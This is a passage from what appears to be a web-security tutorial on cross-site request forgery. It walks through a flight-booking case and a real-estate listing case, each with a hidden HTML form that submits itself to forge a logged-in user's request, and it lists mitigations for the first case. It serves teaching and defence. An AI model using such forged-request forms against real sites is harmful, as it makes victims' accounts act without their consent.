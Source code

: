 ### Scenario:

A travel booking site that allows users to book flights has a CSRF vulnerability in its **booking form**.

**Attack Flow:**

1. The victim logs into `https://travelbooking.com` and the browser stores the session cookie.
2. The attacker creates a malicious website at `https://malicious.com` that contains a **form to book a flight**.

```jsx
<form action="https://travelbooking.com/book-flight" method="POST" style="display:none;">
  <input type="hidden" name="flight_id" value="1234">
  <input type="hidden" name="departure" value="Los Angeles">
  <input type="hidden" name="destination" value="Paris">
  <input type="hidden" name="date" value="2025-12-20">
  <input type="submit">
</form>

<script>
  document.forms[0].submit();
</script>
```

1. The victim visits the malicious website. The form is **automatically submitted** to the **travel site**, and the victim’s browser sends the **session cookie**.
2. The **flight is booked** without the victim's consent, and the attacker can use the **credit card details** linked to the victim’s account.

### Mitigation

* **CSRF token** with each form submission.
* Use **SameSite cookies** for session management.
* Confirm **important actions** like booking with a second factor of authentication.

---

## CSRF in a Real Estate Website (Property Listing Creation)

### Scenario:

An attacker exploits a CSRF vulnerability in a **real estate site** where users can **create property listings**.

**Attack Flow:**

1. The victim logs into `https://realestate.com` and is authenticated.
2. The attacker visits `https://malicious.com` and embeds a hidden form that **creates a property listing** on the real estate site:

```jsx
<form action="https://realestate.com/create-listing" method="POST" style="display:none;">
  <input type="hidden" name="property_type" value="villa">
  <input type="hidden" name="price" value="1000000">
  <input type="hidden" name="location" value="123 Fake Street">
  <input type="submit">
</form>

<script>
  document.forms[0].submit();
</script>
```

